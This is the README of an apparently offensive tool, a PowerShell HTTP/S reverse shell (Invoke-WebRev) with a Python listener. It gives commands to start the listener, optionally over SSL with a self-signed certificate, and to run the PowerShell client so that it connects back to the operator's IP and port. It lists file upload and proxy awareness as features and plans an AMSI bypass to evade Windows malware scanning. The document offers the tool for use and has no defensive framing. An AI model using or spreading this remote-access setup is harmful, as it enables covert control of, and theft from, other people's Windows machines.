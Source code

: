 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function

# Future features
    - AMSI bypass
    - Download function
    - Autocomplete
    
